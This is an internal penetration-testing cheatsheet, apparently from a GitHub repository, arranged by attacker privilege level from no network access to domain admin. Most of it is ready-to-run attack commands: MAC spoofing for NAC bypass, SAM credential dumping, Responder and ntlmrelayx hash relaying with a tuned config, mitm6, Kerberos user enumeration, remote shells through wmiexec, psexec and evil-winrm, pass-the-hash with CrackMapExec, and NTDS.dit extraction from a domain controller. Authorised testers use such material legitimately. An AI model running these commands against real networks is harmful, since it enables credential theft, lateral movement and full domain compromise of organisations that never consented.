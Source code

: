 # Internal Penetration Testing

## **No network access**

### Wi-Fi

* Crack WPA or crack/replay PEAP \(check next cheatsheet : WIFI\)

### NAC - MAC filtering

* Spoof mac from any authorized device \(printer\) and disconnect it: `macchanger -r eth0`
* force your static IP to match the one that you spoofed the mac from : `sudo ifconfig 10.11.12.13/24 && sudo ip route add default via <gateway_ip>`

### NAC - 802.1X

* IEEE 802.1X bypass :

  [https://github.com/Orange-Cyberdefense/fenrir-ocd](https://github.com/Orange-Cyberdefense/fenrir-ocd)

---

## **No account yet**

### Physical access

Boot from Kali Linux and dump creds

```bash
cd SystemRoot%\system32\Config\SAM
impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY -local
```

---

### Port and service scan

nmap

```sh
nmap -Pn -n -sSUV -n -vvv --reason -pT:137-139,445,U:137-139 -oA SMB <hosts>
nmap --version-all -sV -sC -oA top1000 <hosts>
nmap --version-all -sV -sC -p- -oA allports <hosts>
```

Search for low hanging fruits \(MS17 / default password TOMCAT VNC ... \)

```bash
use auxiliary/scanner/smb/smb_ms17_010
use auxiliary/scanner/mssql/mssql_login
use auxiliary/scanner/http/tomcat_mgr_login
searchsploit <service_name>
```

---

### Man-In-The-Middle

Responder + NTLMrelayx

First we need to edit  responder.conf like this :

`vim /usr/share/responder/Responder.conf`

```bash
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

Then we create a list of targets :

```bash
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
cme smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt
```

> if the scope is small : `cme smb <targets> --gen-relay-list relaylistOutputFilename.txt`

After we can run Responder + ntlmrelayx

```bash
python Responder.py -I <interface> -rdw
ntlmrelayx.py -tf relaylistOutputFilename.txt
```

> This command will generate many log files which contain SAM hashes, just get all these files and store it into a formatted file that includes all hashes. \( `cat *.sam |sort -u > hashs.txt` \) Then you can just run CrackMapExec on full scope using theses hashes :

`crackmapexec smb perim_up_smb.txt -u Administrator -d '.' -H hashs.txt --lsa`

mitm6 + NTLMrelayx

```bash
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
ntlmrelayx.py -tf relaylistOutputFilename.txt -6 
```

ARP \(use with caution !\)

```bash
Bettercap
Cain.exe (& Abel)
```

---

### **Domain enum**

Get DC IP

```bash
cat /etc/resolv.conf
nslookup <domain>
```

Password policy \(especially lockout threshold for bruteforce\)

```bash
enum4linux -P -o <target>
enum4linux -a <target>
```

Open shares \(anonymous SMB, NFS, FTP, etc\)

SMB

```bash
smbmap -H IP -r DOSSIER
smbmap -H IP --download DOSSIER

smbclient -L ///192.168.0.1 -U <user> -c ls
```

NFS 

```bash
showmount -e <target>
mount <target>:/home/xx /mnt/yy 
```

kerberos

```bash
nmap -p88 --script=krb5-enum-users --script-args krb5-enum-users.realm='megabank.local',userdb=/root/users.txt 10.10.10.169
./kerbrute_linux_amd64 userenum -d <domain> usernames.txt -debug
```

---

## Unprivileged account only 

### Get a shell

> for winRM do : `PATH="ruby -e 'puts Gem.user_dir'/bin:$PATH"`

```bash
.\WmiExec.ps1 -ComputerName "<target>" -Command "Get-ChildItem C:\"
wmiexec.py <domain>\<user>:<pass>@<target>
winexe -U <domain>/<user>%<pass> //<target> cmd.exe /c dir C:\
evil-winrm -i <target> -u <user> -p '<pass>'
python psexec.py '<user>:<pass>@<target>'
```

---

### Domain enum

```bash
enum4linux -a <target_dc> -u <USER> -p <PASSWORD> -d <domain>
bloodhound.py -d <DOMAIN> -u <user> -p <password> -dc <FQDN-SERVER> -c all
python ldapdomaindump.py -u '<domain>\<user>' -p '<pass>' <target>
sudo ldapsearch -x -LLL -H ldap://webmail.<domain>.fr -D "cn=<cn>" -b "dc=<domain>,dc=<fqdn>" -w '<pass>'
```
> More details are available in the next cheatsheet Domain Escalation

---

### SMB restricted shares

```bash
smbmap -P 445 -H <target> -u '<user>' -p '<pass>' 
smbget -rR smb://<target>/<share>/ -U <user>
smbclient \\\\<target>\\c$ -U <user>
smbclient -L //<target> -U '<domain>\<user>`
upload .ico .scf => Responder/NTLMrelayx
```

---

### Low Privilege Escalation

See next cheatsheet LPE Windows or LPE Linux

---

## **Local Admin account**

### Post-Exploitation

See next cheatsheets Post-Ex Windows and Post-Ex Linux

### Replay the secrets found

LM/NTLM hash or cleartext password with CrackMapExec

```bash
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa
```

### Pivoting

See next cheatsheet Pivoting

### Domain escalation

See next cheatsheet Domain Escalation

---

## **Domain admin account**

### Dump NDTS.dit from DC

```bash
cme smb 192.168.1.100 -u <domain_admin> -p '<pass>' --ntds
```